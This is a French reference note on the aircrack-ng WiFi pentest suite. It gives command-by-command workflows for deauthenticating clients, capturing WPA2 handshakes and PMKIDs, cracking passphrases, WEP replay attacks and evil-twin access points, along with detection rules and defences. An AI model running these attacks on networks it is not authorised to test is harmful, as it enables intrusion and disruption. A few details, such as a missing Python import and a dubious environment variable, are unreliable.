

# 📡 aircrack-ng — Wireless & Réseau

> [!info] **En 1 phrase**
> Suite de référence pour le **pentest WiFi** : capture des handshakes WPA/WPA2, attaques WEP, **crack de passphrases hors-ligne** et injection de trames — le socle de 90% des attaques WiFi.

---

## 🧾 Overview

| Champ | Valeur |
|---|---|
| Nom complet | aircrack-ng (« aire-crack-next-generation ») |
| Description | Suite complète d'audit WiFi : mode moniteur, capture/injection, attaques WEP, crack WPA/WPA2-PSK |
| Catégorie | 📡 Wireless & Réseau |
| Sous-catégorie | Attaque & Cracking WiFi (WEP / WPA / WPA2-PSK) |
| Fonction principale | Capturer les handshakes 4-way et PMKID, déauthentifier des clients, injecter des trames, cracker des clés hors-ligne |
| Type d'outil | Suite CLI (plusieurs binaires distincts) |
| Licence | GPL-2.0-or-later |
| Open source / propriétaire | Open source |
| Langage(s) de programmation | C, C++ (binaires), Python 3 (scripts, airgraph-ng) |
| Développeur / organisation | Équipe aircrack-ng (Thomas d'Otreppe « mister_x », Zero_Chaos, sob, estk) — fondé par Christophe Devine |
| Projet officiel | The aircrack-ng project |
| Dépôt officiel | https://github.com/aircrack-ng/aircrack-ng |
| Documentation officielle | https://www.aircrack-ng.org/doku.php |
| Date de création | 2004 (premier outil « aircrack » de Christophe Devine, réécrit en suite « ng ») |
| État du projet | actif (1.7 sorti le 10 mai 2022, toujours la version stable de référence) |
| Dernière version connue | 1.7 (paquets Debian/Kali : `1.7+git20230807` en 2026) |
| Systèmes compatibles | Linux, Windows, macOS, FreeBSD, OpenBSD, NetBSD, Solaris, eComStation |

> [!note] Pour vérifier / compléter
> La suite est constituée d'environ 25 binaires : `airmon-ng`, `airodump-ng`, `aireplay-ng`, `aircrack-ng`, `airbase-ng`, `airdecap-ng`, `airtun-ng`, `airgraph-ng`, `besside-ng`, `packetforge-ng`, `airolib-ng`, `airventriloquist-ng`… Toutes les options documentées ici proviennent du manuel officiel et du README GitHub.

---

## 🎯 Concept

`aircrack-ng` est le socle de la quasi-totalité des tests d'intrusion WiFi. La suite couvre toute la chaîne d'une attaque : **préparation de l'interface** (`airmon-ng` passe la carte en mode moniteur), **reconnaissance** (`airodump-ng` liste les AP, canaux, clients et chiffrements), **injection** (`aireplay-ng` déauthentifie, forge des trames, replay ARP), **capture** du handshake 4-way ou du PMKID, puis **crack hors-ligne** de la passphrase (`aircrack-ng` seul, ou via `hcxpcapngtool` + hashcat pour exploiter le GPU). Historiquement né en 2004 pour casser le WEP (PTW, KoreK, chopchop), il s'est imposé pour le WPA/WPA2-PSK : la robustesse de WPA2 ne réside plus dans le protocole mais dans la force de la passphrase, que la suite permet d'attaquer par dictionnaire, par règle ou par masque.

Son positionnement dans un pentest : la phase « Wi-Fi » proprement dite, entre la recon passive (Kismet) et le cracking intensif (hashcat/John). C'est aussi l'outil d'aide aux attaques plus avancées : `airbase-ng` construit des **AP rogue** (evil twin), `airventriloquist-ng` injecte du trafic chiffré, `besside-ng` automatise toute la capture. La sortie des captures (`.cap`, `.pcapng`) alimente les outils de conversion hcxtools et les analyseurs [[Outil - tshark]] / [[Outil - Wireshark]].



---

## 🧠 Concepts fondamentaux

| Concept | Explication |
|---|---|
| Mode moniteur | La carte reçoit toutes les trames 802.11 sans s'associer à un AP ; indispensable pour capture et injection (`airmon-ng start`) |
| Injection | Capacité de la carte à envoyer des trames arbitraires ; conditionnée par le driver. Testée avec `aireplay-ng -9` |
| BSSID / ESSID | BSSID = adresse MAC de l'AP (AA:BB:CC:DD:EE:FF), ESSID = nom du réseau (« TestAP ») |
| Handshake 4-way | Échange EAPOL entre client et AP lors de l'association WPA/WPA2 ; sa capture permet le crack hors-ligne du PSK |
| PMKID | Hash dérivé du PMK calculé par l'AP et émis sans client connecté ; vecteur alternatif au handshake |
| WEP et IV | WEP chiffre par RC4 avec un IV de 24 bits ; la collecte d'IV (ARP replay) permet la récupération statistique de la clé (PTW) |
| WPA2-PSK / SAE | WPA2-PSK partage une passphrase dérivable en PMK ; WPA3/SAE (Dragonfly) résiste au crack offline |
| Deauth (trame 0xC0) | Trame de désauthentification : force un client à se reconnecter → capture du handshake au passage |
| Canal 802.11 | 2,4 GHz (1-13), 5 GHz (36-165), 6 GHz ; `airodump-ng -c` fixe le canal, `--band` choisit la bande |
| Format de capture | `.cap` (pcap libpcap) ; `.pcapng` (airodump-ng 1.7) ; CSV + Kismet XML générés en parallèle avec `-w` |
| OUI database | `airmon-ng`/`airodump-ng` traduisent les 3 premiers octets MAC en fabricant (`airodump-ng-oui-update`) |

---

## 🛠️ Installation

### Debian / Ubuntu / Kali Linux

```bash
sudo apt update && sudo apt install -y aircrack-ng
# Kali : déjà préinstallé
aircrack-ng --help   # vérifier la version (attendu : 1.7)
```

### Arch Linux

```bash
sudo pacman -S aircrack-ng
```

### Fedora / RHEL

```bash
sudo dnf install aircrack-ng
```

### macOS

```bash
brew install aircrack-ng
```

### Windows

```powershell
# Binaires officiels : https://www.aircrack-ng.org/downloads.html
# ATTENTION : la version Windows (1.7) nécessite des DLL maison pour piloter la carte
# (l'injection est de toute façon très limitée sur Windows).
```

### Docker

```bash
# Image communautaire (l'injection WiFi dans un conteneur reste limitée)
docker run --rm -it --privileged --network host kalilinux/kali-rolling bash -c "apt update && apt install -y aircrack-ng"
```

### Compilation depuis les sources

```bash
git clone https://github.com/aircrack-ng/aircrack-ng.git && cd aircrack-ng
autoreconf -i
./configure --with-experimental --with-ext-scripts
make -j$(nproc) && sudo make install
```

> [!warning] ⚠️ Prérequis & problèmes potentiels
> - **Carte compatible monitor + injection** : chipset Atheros (ath9k), Ralink (rt2800usb), Realtek (RTL8812AU) recommandés ; les chipsets Intel et Broadcom posent des problèmes en injection.
> - Dépendances de compilation : `libpcap-dev`, `libnl-3-dev`, `libnl-genl-3-dev`, `libssl-dev`, `libgcrypt20-dev`, `autoconf`, `automake`, `pkg-config`, `ethtool`.
> - `airmon-ng check kill` coupe NetworkManager et wpa_supplicant → prévoir un accès filaire.
> - Ne pas utiliser `airmon-ng` avec une carte déjà gérée par NetworkManager sans le `check kill`.

---

## ⚙️ Configuration

La suite aircrack-ng fonctionne **sans fichier de configuration utilisateur central** : tout se passe par options CLI. Quelques fichiers de données sont utilisés automatiquement.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `airmon-ng check kill` | Tue les processus gênant le moniteur | (aucun) | Libère la carte pour le mode moniteur | `sudo airmon-ng check kill` |
| `airmon-ng start <iface>` | Passe l'interface en mode moniteur | nom d'interface | Crée `wlan0mon` (ou `mon0`) | `sudo airmon-ng start wlan0` |
| `airodump-ng -w <prefix>` | Préfixe des fichiers de sortie | chemin | Écrit `<prefix>-01.cap/.csv/.kismet.netxml/.log.csv` | `-w /pentest/wifi/cap` |
| `airodump-ng --band <b>` | Bande à scanner | `2g`, `5g`, `6g`, `bg` | Restreint le channel hopping | `--band 2g` |
| `aireplay-ng -a <bssid>` | MAC de l'AP ciblé | MAC | Ancre l'attaque sur l'AP | `-a AA:BB:CC:DD:EE:FF` |
| `airodump-ng-oui-update` | Met à jour la base OUI | (aucun) | Résout les fabricants MAC | `sudo airodump-ng-oui-update` |
| `airolib-ng <db>` | Base SQLite de wordlists/PMK (précalculs) | chemin | Accélère le crack (`aircrack-ng -r`) | `airolib-ng db import /usr/share/wordlists/rockyou.txt` |
| Variables d'env | `AIRCRAcK_NG_NEXT` etc. | (rarement utilisées) | Comportements expérimentaux | — |

> [!note] À vérifier
> Selon la distribution, `airodump-ng-oui-update` peut nécessiter un accès réseau vers `standards-oui.ieee.org` ; le fichier OUI local se trouve dans `/etc/aircrack-ng/` ou `/usr/share/aircrack-ng/` selon la version.

---

## 🏗️ Architecture interne

La suite est un ensemble de **binaires C indépendants** partageant la bibliothèque `osdep` (OS-dependent layer) qui abstrait la capture/injection selon le système (Linux nl80211/libpcap, Windows AirPcap/Npcap…).

- **`airmon-ng`** : script Bash/Python qui pilote `iw`/`ip` pour basculer la carte en moniteur et gère le conflit avec les services réseau.
- **`airodump-ng`** : sniffer multi-canal (channel hopping) qui découpe les trames 802.11, alimente une table AP/clients (BSSID, ESSID, canal, power, chiffrement, WPS, clients) et écrit les captures.
- **`aireplay-ng`** : moteur d'injection (deauth 0xC0, fake auth 0xB0, ARP replay, chopchop, fragmentation) reposant sur osdep.
- **`aircrack-ng`** : cracker hors-ligne — implémente les attaques WEP PTW (algorithme Pyshkin–Tews–Weinmann), KoreK et le dictionnaire/masque WPA-PSK ; optimisé par instructions SIMD (trampoline binaire).
- **`airbase-ng`** : mini-AP qui répond aux probes et sert de rogue AP / evil twin.
- **`besside-ng`** : automatise la capture (scan → deauth → handshake) en une commande.
- **`hcxpcapngtool`** (suite hcxtools, complémentaire) : convertit `.cap/.pcapng` en format hashcat **22000**.

Flux de données : carte radio → driver → osdep → airodump-ng → fichier `.cap` → aircrack-ng (CPU) ou hcxpcapngtool → hashcat (GPU). Tous les binaires loggent sur stderr et peuvent être scriptés (sortie par lots `--output-format csv/json` pour airodump-ng ≥ 1.7).

---

## ⌨️ Commandes

### Commandes principales

```bash
aircrack-ng [options] <fichier de capture>
airodump-ng [options] <interface moniteur>
aireplay-ng <mode> [options] <interface moniteur>
airmon-ng <start|stop|check> <interface>
```

| Commande | Objectif | Résultat attendu |
|---|---|---|
| `sudo airmon-ng start wlan0` | Passer la carte en mode moniteur | Interface `wlan0mon` créée |
| `sudo airmon-ng check kill` | Libérer la carte (kill NetworkManager/wpa_supplicant) | Processus gênants stoppés |
| `sudo airodump-ng wlan0mon` | Scanner tous les AP + clients | Table BSSID/ESSID/canal/power/WPS |
| `sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w cap wlan0mon` | Capture ciblée canal 6 | Fichier `cap-01.cap` (+ csv) |
| `sudo aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon` | Deauth un client (10 trames) | Client déconnecté, se reconnecte |
| `sudo aireplay-ng -9 wlan0mon` | Test d'injection | « Injection is working! » |
| `sudo aireplay-ng -1 0 -e TestAP -a AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 wlan0mon` | Fake auth (WEP) | Association acceptée |
| `sudo aireplay-ng -3 -b AA:BB:CC:DD:EE:FF wlan0mon` | ARP replay (WEP) | Génère des IV capturés |
| `sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt cap-01.cap` | Crack WPA/WPA2 par dictionnaire | Passphrase si présente dans la liste |
| `sudo aircrack-ng -b AA:BB:CC:DD:EE:FF cap-01.cap` | Crack WEP (PTW, sans dictionnaire) | Clé WEP en hexadécimal |
| `sudo airdecap-ng -e TestAP -p MaPassphrase cap-01.cap` | Déchiffrer une capture avec la clé | `cap-dec.cap` lisible en clair |

### Commandes avancées

```bash
# Capture PMKID + handshake via la suite complémentaire, puis crack GPU
sudo hcxdumptool -i wlan0mon -o dump.pcapng --enable_status
hcxpcapngtool dump.pcapng -o hash.22000
hashcat -m 22000 hash.22000 /usr/share/wordlists/rockyou.txt

# Evil twin minimal (AP rogue)
sudo airbase-ng -e TestAP -c 6 -P wlan0mon

# Capture entièrement automatisée (handshake) 
sudo besside-ng wlan0mon

# Lire une capture existante pour vérifier un handshake
sudo airodump-ng -r cap-01.cap
```

---

## 🎚️ Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `airmon-ng start <iface>` | Passe en mode moniteur | `sudo airmon-ng start wlan0` | Basic |
| `airodump-ng -c <ch>` | Fixe le canal | `-c 6` | Basic |
| `airodump-ng --bssid <mac>` | Cible un AP | `--bssid AA:BB:CC:DD:EE:FF` | Basic |
| `airodump-ng -w <prefix>` | Écrit les captures | `-w cap` | Basic |
| `aireplay-ng -0 <n>` | Deauth (n = nombre de trames, 0 = illimité) | `-0 5` | Basic |
| `aireplay-ng -9` | Test d'injection | `-9 wlan0mon` | Basic |
| `aircrack-ng -w <list>` | Dictionnaire | `-w rockyou.txt` | Basic |
| `aircrack-ng -b <bssid>` | Sélectionne le réseau (WEP/WPA) | `-b AA:BB:CC:DD:EE:FF` | Intermediate |
| `airodump-ng --band <b>` | Bande 2g/5g/6g | `--band 5g` | Intermediate |
| `airodump-ng -r <fichier>` | Rejoue une capture | `-r cap-01.cap` | Intermediate |
| `aireplay-ng -1 <n>` | Fake auth | `-1 0 -e TestAP -a <mac>` | Intermediate |
| `aireplay-ng -3 -b <mac>` | ARP request replay | `-3 -b AA:BB:CC:DD:EE:FF` | Advanced |
| `aireplay-ng -4` | Chopchop (WEP) | `-4 -b AA:BB:CC:DD:EE:FF` | Advanced |
| `aireplay-ng -5` | Fragmentation (WEP) | `-5 -b AA:BB:CC:DD:EE:FF` | Advanced |
| `packetforge-ng` | Forge des trames | `packetforge-ng -0 -a <mac> -h <mac> -l <ip>` | Advanced |
| `aircrack-ng -a 2 -n <len>` | Mode WPA2, longueur de clé | `-a 2 -n 8` | Advanced |
| `aircrack-ng -z` | Méthode PTW explicite (WEP) | `-z cap-01.cap` | Expert |
| `aircrack-ng -r <db>` | Utilise une base airolib-ng | `-r wpa.db` | Expert |
| `airbase-ng -P` | Evil twin + réponse probes | `airbase-ng -e TestAP -P wlan0mon` | Expert |
| `besside-ng <iface>` | Capture automatisée du handshake | `sudo besside-ng wlan0mon` | Expert |

> [!tip] Options les plus utiles au quotidien
> `airmon-ng check kill` puis `start wlan0`, capture ciblée `airodump-ng -c <ch> --bssid <mac> -w <prefix>`, deauth courte `aireplay-ng -0 5`, puis `aircrack-ng -w <wordlist> cap-01.cap`. Pour le GPU : convertir avec `hcxpcapngtool -o hash.22000`.

---

## 🧪 Exemples pratiques

### Beginner

```bash
# Objectif : voir si la carte supporte le moniteur et scanner son environnement
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon
```

### Intermediate

```bash
# Objectif : capturer le handshake d'un AP WPA2 précis (canal 6)
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w cap wlan0mon
# Dans un autre terminal :
sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF wlan0mon
# Dès que « WPA handshake: AA:BB:CC:DD:EE:FF » apparaît, Ctrl-C puis :
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt cap-01.cap
```

### Advanced

```bash
# Objectif : attaque WEP complète par ARP replay
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF --ivs -w wep wlan0mon
sudo aireplay-ng -1 0 -e TestAP -a AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 wlan0mon
sudo aireplay-ng -3 -b AA:BB:CC:DD:EE:FF wlan0mon
# Une fois 20 000+ IV collectés :
sudo aircrack-ng wep-01.ivs
```

### Expert

```bash
# Objectif : déchiffrer une capture à l'aide de la clé connue (post-exploitation)
sudo airdecap-ng -e TestAP -p MaPassphraseSuperLongue cap-01.cap
# Objectif : pipeline complet capture → hashcat (GPU)
sudo hcxdumptool -i wlan0mon -o dump.pcapng
hcxpcapngtool dump.pcapng -o hash.22000
hashcat -m 22000 hash.22000 /usr/share/wordlists/rockyou.txt -w 3
```

---

## 🧪 Workflow complet (scénario pas à pas)

Scénario : cracker le WPA2-PSK d'une box « Freebox-ABC » (canal 6).

1. **Préparer l'environnement** :
   ```bash
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
2. **Identifier la cible** (canal, BSSID, clients) :
   ```bash
   sudo airodump-ng wlan0mon --band 2g
   ```
3. **Lancer la capture ciblée** dans un terminal 1 :
   ```bash
   sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w freebox wlan0mon
   ```
4. **Forcer la reconnexion** dans un terminal 2 :
   ```bash
   sudo aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon
   ```
5. **Vérifier** l'apparition de `WPA handshake: AA:BB:CC:DD:EE:FF` dans terminal 1, puis Ctrl-C.
6. **Cracker la passphrase** :
   ```bash
   sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt freebox-01.cap
   ```

---

## 🎬 Scénarios avancés

### Scénario 1 : Crack WPA2 accéléré avec hashcat (format 22000)

Le CPU de `aircrack-ng` plafonne à quelques milliers de tentatives/s ; hashcat exploite le GPU.

```bash
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt freebox-01.cap   # crack CPU direct (secours)
# Ou pour hashcat :
hcxpcapngtool freebox-01.cap -o hash.22000
hashcat -m 22000 hash.22000 /usr/share/wordlists/rockyou.txt --show
```

### Scénario 2 : Attaque PMKID sans client connecté

Le PMKID est émis par l'AP sans besoin de client ni de handshake (via la suite hcxtools).

```bash
sudo hcxdumptool -i wlan0mon -o pmkid.pcapng --filterlist_ap=AA:BB:CC:DD:EE:FF --filtermode=2
hcxpcapngtool pmkid.pcapng -o pmkid.22000
hashcat -m 22000 pmkid.22000 /usr/share/wordlists/rockyou.txt
```

### Scénario 3 : Evil twin + capture de handshake avec airbase-ng

Utile quand aucun client n'est présent sur le canal : on crée un AP jumeau.

```bash
sudo airbase-ng -e Freebox-ABC -c 6 wlan0mon &
# Les clients se connectent au faux AP → échange EAPOL capturé
sudo airodump-ng -c 6 --bssid <MAC_du_faux_AP> -w evil wlan0mon
```

---

## 🛡️ Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Reconnaissance | Scan des AP et clients (`airodump-ng`), cartographie canaux/chiffrement |
| Énumération | Détection WPS, clients connectés, réseaux cachés (SSID par probes) |
| Vulnérabilité | Test d'injection, vérification WEP/WPA2-PSK, AP rogue |
| Exploitation | Capture handshake/PMKID, deauth, attaques WEP (chopchop, ARP replay) |
| Cracking | Crack hors-ligne WEP/WPA/WPA2 (dictionnaire, masque, précalcul airolib) |
| Post-exploitation | `airdecap-ng` pour déchiffrer les captures, rejet du trafic vers analyse |
| Red team | `airbase-ng`/`besside-ng` pour AP rogue et capture automatisée |

---

## 🎯 MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Discovery | Network Sniffing | T1040 | Capture passive des trames 802.11 et du handshake EAPOL | WIDS, monitoring RF, corrélation des événements de la radio | Chiffrement WPA3/SAE, segmentation RF |
| Credential Access | Brute Force: Password Guessing | T1110.001 | Crack par dictionnaire de la passphrase WPA-PSK | Logs de tentatives, monitoring CPU/GPU anormaux | Passphrase longue et aléatoire (> 16 caractères) |
| Reconnaissance | Active Scanning | T1595 | Sondes actives, probes, requêtes de scan AP | Détection des trames de probe anormales (WIDS) | Écoute des canaux, liste blanche de SSID |
| Initial Access | Hardware Additions | T1200 | `airbase-ng` crée un AP rogue / evil twin | Détection d'AP non déclarés (inventaire BSSID) | WIDS/WIPS, 802.1X, surveillance des AP |
| Defense Evasion | Impair Defenses: Disable or Modify Tools | T1562.001 | `airmon-ng check kill` neutralise wpa_supplicant/NetworkManager | Supervision des processus réseau, EDR | Durcissement des postes, supervision service |
| Collection | Adversary-in-the-Middle | T1557 | Evil twin pour intercepter l'échange client/AP | Détection d'AP jumeaux, comparaison BSSID | 802.1X, WPA3, sensibilisation |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> Pour le cracking lui-même, les ID T1110 (Brute Force) et T1040 (Network Sniffing) sont les plus représentatifs du workflow aircrack-ng.

---

## 🛡️ Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| Rafales de trames de deauth (0xC0) | Signature classique d'une capture de handshake (`aireplay-ng -0`) |
| Pics de probes et requêtes d'association | Scan actif ou fake auth répété |
| Apparition d'AP jumeaux/non déclarés | Rogue AP via `airbase-ng` |
| Une carte en mode moniteur dans le voisinage | Impossible à voir directement, mais l'injection crée des anomalies |
| Handshakes capturés puis cracking CPU/GPU | L'effort de calcul peut être observé en post-exploitation |
| `airmon-ng check kill` coupe soudainement des postes | Témoin indirect : un utilisateur perd sa connexion WiFi |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Sigma — Linux : exécution des outils d'audit WiFi (aircrack-ng)
title: Linux Wifi Auditing Tools Execution
status: experimental
logsource:
    category: process_creation
    product: linux
detection:
    selection:
        Image|endswith:
            - '/aircrack-ng'
            - '/airmon-ng'
            - '/airodump-ng'
            - '/aireplay-ng'
            - '/airbase-ng'
            - '/besside-ng'
    condition: selection
falsepositives:
    - Administration légitime du WiFi (troubleshooting)
level: high
```

```bash
# Suricata/Snort — attention : ces règles ne fonctionnent qu'en capture radio 802.11
# (ex. interface moniteur injectée dans Suricata) ; à adapter à votre sensor.
alert wlan any any -> any any (msg:"Potential Wifi deauth flood"; wlan.fc.type_subtype:12; detection_filter:track by_src, count 50, seconds 10; classtype:attempted-dos; sid:9000001; rev:1;)
```

> [!note] À vérifier
> Le monitoring de trames 802.11 nécessite un capteur WIDS dédié (Kismet, OpenWISP, AWS) : les règles Sigma ci-dessus ciblent l'exécution sur endpoint, les règles Suricata 802.11 sont des exemples pédagogiques à valider sur votre sensor.

---

## 🤖 Automatisation

```bash
# Bash — capture séquentielle sur plusieurs canaux, un fichier par cible
for ch in 1 6 11; do
    sudo airodump-ng -c $ch --bssid AA:BB:CC:DD:EE:FF -w "scan_ch$ch" wlan0mon --write-interval 5 &
done
sleep 30 && sudo kill $(pgrep airodump-ng)
```

```python
# Python — lancer besside-ng en tâche de fond et surveiller le handshake
import subprocess, os
out = subprocess.Popen(["besside-ng", "wlan0mon"], stdout=subprocess.DEVNULL)
while not os.path.exists("wpa.cap"):
    time.sleep(2)
print("Handshake capturé : wpa.cap")
```

---

## 📤 Output et parsing

Les captures `-w <prefix>` produisent plusieurs fichiers : `<prefix>-01.cap`, `-01.csv`, `-01.kismet.netxml`, `-01.log.csv`.

```bash
# Extraire la liste des BSSID et ESSID vus depuis le CSV
cut -d ',' -f 1,14,7 "cap-01.csv" | tail -n +3
# Vérifier la présence d'un handshake EAPOL dans une capture
tshark -r cap-01.cap -Y "eapol.type == 3" | head
```

```python
# Python — parser le XML Kismet produit par airodump-ng
import xml.etree.ElementTree as ET
tree = ET.parse("cap-01.kismet.netxml")
for w in tree.getroot().findall("wireless-network"):
    ssid = w.findtext("essid")
    bssid = w.find("BSSID").text
    enc = w.findtext("encryption")
    print(ssid, bssid, enc)
```

---

## 🔗 Intégrations

- [[Tools|🧰 Outils]] global
- [[Outil - hcxdumptool]] / [[Outil - hcxdumptool]] — capture PMKID/handshake complémentaire
- [[Outil - hashcat]] — crack GPU via le format 22000
- [[Outil - John the Ripper]] — crack alternatif (`--format=wpapsk`)
- [[Outil - Wireshark]] / [[Outil - tshark]] — analyse des captures et du handshake EAPOL
- [[Outil - mdk4]] — deauth massives pour forcer les reconnexions
- [[Outil - Reaver]] — attaque WPS (PIN/pixiewps) en parallèle du WPA2-PSK
- [[Outil - Wifite]] — orchestration automatisée de toute la suite
- [[Outil - Kismet]] — recon passive en amont
- [[Techniques/Attaques WiFi (WPA2 et PMKID)|📶 Hub WiFi]] · [[Techniques/Attaques WiFi - WEP|🔒 WEP]] · [[Techniques/Attaques WiFi - Rogue AP|🎭 Rogue AP]] · [[Techniques/Password Cracking|🔐 Cracking]]

```text
Kismet (recon) → aircrack-ng (capture+injection) → hcxtools → hashcat (crack GPU)
                              ↓
                    Wireshark / tshark (analyse du handshake)
```

---

## 🔄 Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| hcxdumptool | PMKID sans client, pcapng direct, démon automatique | N'accepte pas la suite aircrack-ng en parallèle sur la même carte | Capture longue, workflow hashcat |
| wifite2 | Automatisation complète (push-button) | Moins de contrôle fin sur chaque étape | Audits rapides, camps |
| Kismet | Recon passive multi-protocole, UI web | Pas d'injection/crack | Recon, WIDS |
| mdk4 | Deauth/auth/beacon flood massifs | Destructeur, très bruyant | Tests de disponibilité WIDS |
| airgeddon | Script Bash tout-en-un (WPA/WPS/WEP/rogue) | Dépend de la stack aircrack-ng | Scénarios mixtes |
| hashcat | Cracking GPU ultra-rapide | Nécessite un format de hash converti | Crack intensif |

> **Quand utiliser hcxdumptool plutôt que aircrack-ng ?** Pour la **collecte** moderne : un seul outil produit un `.pcapng` avec PMKID + handshakes, sans passage par airodump-ng, puis hcxpcapngtool convertit en `22000` pour hashcat. aircrack-ng reste indispensable pour l'injection ciblée (deauth, WEP, evil twin).

---

## ⚡ Performance

- **Cracking WEP** : l'attaque PTW cracke une clé WEP 64 bits en quelques secondes avec ~20 000 IV ; la méthode KoreK (statistique) fonctionne avec moins de données mais plus lentement.
- **Cracking WPA/WPA2** : `aircrack-ng` réalise quelques centaines de milliers de tentatives/s en multi-cœur ; **hashcat** (mode 22000) atteint des centaines de millions de tentatives/s sur GPU. Ordre de grandeur : une passphrase 8 caractères minuscules = quelques heures de GPU.
- **Capture** : `airodump-ng` supporte le channel hopping multi-canal ; fixer `-c` un canal unique améliore la fiabilité de capture des bursts courts.
- **Mémoire** : `airocrack-ng` est optimisé pour charger de très grandes captures (amélioré en 1.4+).
- `aircrack-ng 1.2+` embarque un **trampoline binaire** qui choisit automatiquement la version SIMD (SSE2, AVX2…) optimale pour le CPU.

> [!note] À vérifier
> Les chiffres exacts dépendent du CPU/GPU, de la version et de la wordlist ; les ordres de grandeur cités proviennent du wiki aircrack-ng et des benchmarks publics hashcat.

---

## 🛠️ Troubleshooting

### Common problems

#### Problème : « No such device » après `airmon-ng start`

- **Cause** : pilote incompatible ou interface occupée par NetworkManager.
- **Solution** : `sudo airmon-ng check kill`, puis réessayer ; vérifier avec `iw dev`.
- **Vérification** : `iwconfig` affiche `Mode:Monitor` sur `wlan0mon`.

#### Problème : `aireplay-ng -9` indique « no response from target »

- **Cause** : la carte ne supporte pas l'injection, ou canal/mac incorrects.
- **Solution** : tester sur une autre carte/chipset (Realtek RTL8812AU, Atheros), vérifier `-c` et `--bssid`.
- **Vérification** : la sortie doit afficher `Injection is working!`.

#### Problème : le handshake ne s'affiche jamais dans airodump-ng

- **Cause** : pas de client actif (personne ne se reconnecte) ou deauth trop rapide.
- **Solution** : relancer une deauth courte et attendre ; viser un client précis avec `-c` ; tester le PMKID avec hcxdumptool.
- **Vérification** : `WPA handshake: AA:BB:CC:DD:EE:FF` dans le coin supérieur droit d'airodump-ng.

#### Problème : le crack ne trouve rien avec rockyou

- **Cause** : la passphrase n'est pas dans la wordlist (ou trop longue).
- **Solution** : utiliser des règles (`--` + john rules), un masque (`-a 3`), ou passer à hashcat avec une règle OneRuleToRuleThemAll.
- **Vérification** : `--show` / comparer avec `aircrack-ng --bssid` et le nombre de mots testés.

---

## 🔐 Sécurité de l'outil

- **Permissions** : la capture/injection nécessite **root** (sockets raw / nl80211). À n'utiliser que sur des réseaux **autorisés** (test d'intrusion, lab).
- **Bruit** : deauth, fake auth et AP rogue sont immédiatement visibles par un WIDS ; en engagement réel, limiter la durée et préférer la capture passive.
- **Le `check kill`** coupe la connectivité réseau de la machine : travailler en accès filaire pendant la phase moniteur.
- **Données sensibles** : les captures contiennent du trafic potentiellement identifiant ; chiffrer les fichiers et le poste de travail.
- **Aucune télémétrie** : la suite est 100% locale, pas de collecte de données.
- Ne pas utiliser `airmon-ng` sur une interface virtuelle ou partagée (l'outil suppose une carte dédiée).

---

## ⚠️ Limitations

- **WPA3/SAE** : pas de handshake 4-way WPA2 ni PMKID exploitable → la suite est inefficace contre un réseau WPA3-only.
- **Windows** : l'injection est quasi inexistante (nécessite des DLL maison), réservé au crack hors-ligne de captures externes.
- **Cracking par dictionnaire** : ne trouve que ce qui est dans la liste ; les passphrases aléatoires > 12-16 caractères sont hors de portée.
- **Cartes Intel/Broadcom** : monitor + injection problématiques ; préférer Realtek/Atheros/Ralink.
- **WEP** : en voie de disparition, mais encore présent sur l'IoT vieillissant.
- **Multi-AP simultanés** : airodump-ng scanne mais chaque attaque active cible un AP ; pour du multi-cible, préférer wifite2/besside-ng.

---

## 📋 Cheatsheet

```bash
# Préparation de la carte
sudo airmon-ng check kill
sudo airmon-ng start wlan0

# Reconnaissance
sudo airodump-ng wlan0mon --band 2g
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w cap wlan0mon

# Forcer le handshake (terminal 2)
sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon

# Crack WPA/WPA2 (CPU)
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt cap-01.cap

# Crack WPA/WPA2 (GPU via hashcat 22000)
hcxpcapngtool cap-01.cap -o hash.22000
hashcat -m 22000 hash.22000 rockyou.txt

# Crack WEP
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF --ivs -w wep wlan0mon
sudo aireplay-ng -1 0 -e TestAP -a AA:BB:CC:DD:EE:FF wlan0mon
sudo aireplay-ng -3 -b AA:BB:CC:DD:EE:FF wlan0mon
sudo aircrack-ng wep-01.ivs

# Test d'injection
sudo aireplay-ng -9 wlan0mon
```

---

## ⚡ Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Suite d'audit WiFi : moniteur, capture, injection, attaques WEP, crack WPA/WPA2-PSK |
| **Quand l'utiliser ?** | Phase d'attaque WiFi : dès qu'une cible WPA/WPA2-PSK ou WEP est identifiée |
| **Commande principale** | `sudo airmon-ng start wlan0 && sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w cap wlan0mon` puis `aircrack-ng -w list cap-01.cap` |
| **Alternative principale** | hcxdumptool + hcxpcapngtool + hashcat (workflow moderne), wifite2 (automatique) |
| **Concepts importants** | Mode moniteur, injection, handshake 4-way, PMKID, deauth, PTW/WEP, format 22000 |
